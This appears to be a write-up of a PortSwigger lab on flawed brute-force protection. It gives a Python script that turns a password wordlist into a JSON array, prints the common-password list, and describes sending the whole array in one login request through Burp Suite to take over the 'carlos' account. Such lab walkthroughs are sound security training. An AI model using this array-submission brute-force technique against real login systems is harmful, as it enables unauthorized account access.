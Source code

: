 ## Description:
<p> 
This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his "My account" page.
</p>

<p> Victim's username: carlos </p> 
<p> with password worldlist for bruteforce  you can get it from here </p> https://portswigger.net/web-security/authentication/auth-lab-passwords
now lets open burpsuite and see  request 

![Screenshot from 2020-08-13 01-13-16](https://user-images.githubusercontent.com/36403473/90077666-05319f80-dd03-11ea-8cb3-4248209cfc5a.png)

<p> the data is  sent in <b> json<b> format </p>
so i convert password wordlist in json format by simple python code 

```python
import json
with open('pass.txt') as file:
    arr=[]
    for i in file:
        arr.append(i.rstrip())
print(json.dumps(arr))
file.close() 
```
after conversion  
```
["123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111", "1234567", "dragon", "123123", "baseball", "abc123", "football", "monkey", "letmein", "shadow", "master", "666666", "qwertyuiop", "123321", "mustang", "1234567890", "michael", "654321", "superman", "1qaz2wsx", "7777777", "121212", "000000", "qazwsx", "123qwe", "killer", "trustno1", "jordan", "jennifer", "zxcvbnm", "asdfgh", "hunter", "buster", "soccer", "harley", "batman", "andrew", "tigger", "sunshine", "iloveyou", "2000", "charlie", "robert", "thomas", "hockey", "ranger", "daniel", "starwars", "klaster", "112233", "george", "computer", "michelle", "jessica", "pepper", "1111", "zxcvbn", "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753", "aaaaaa", "ginger", "princess", "joshua", "cheese", "amanda", "summer", "love", "ashley", "nicole", "chelsea", "biteme", "matthew", "access", "yankees", "987654321", "dallas", "austin", "thunder", "taylor", "matrix", "mobilemail", "mom", "monitor", "monitoring", "montana", "moon", "moscow"]
```
modifying password field in the request 

![Screenshot from 2020-08-13 00-57-19](https://user-images.githubusercontent.com/36403473/90078237-80e01c00-dd04-11ea-88e1-4aeba86b6c38.png)
from burpsuite i select ->Show response in browser
now i have authentication to have carlos previllige.

This lab is easy, but the main idea is how to do the bruteforce process in only one request.
